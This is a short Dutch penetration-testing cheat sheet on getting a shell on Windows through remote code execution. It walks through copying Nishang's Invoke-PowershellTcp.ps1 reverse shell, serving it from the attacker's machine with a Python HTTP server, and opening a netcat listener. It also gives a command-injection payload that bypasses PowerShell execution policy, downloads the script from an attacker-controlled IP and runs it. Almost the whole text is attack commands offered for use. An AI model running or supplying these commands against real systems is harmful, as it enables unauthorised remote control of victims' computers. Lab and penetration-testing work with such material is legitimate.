 ## Shell verkrijgen

### Basics

#### Payload kiezen voor de RCE

**Standaard**

```
/opt/nishang/Shells/Invoke-PowershellTcp.ps1
cp /opt/nishang/Shells/Invoke-PowershellTcp.ps1 /<workdirectory>/rev.ps1

## Verander de rev.ps1 naar je ip

cd /<workdirectory>/
python3 -m http.server 8088
nc -lvnp 8088
```

**Command Injection**

```
powershell -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://<ip>:8088/rev.ps1 -OutFile rev.ps1; .\rev.ps1"
```

**En nu heb je een stabiele shell in windows**

*Zie /opt/nishang/Shells voor meer powerscript shells!*
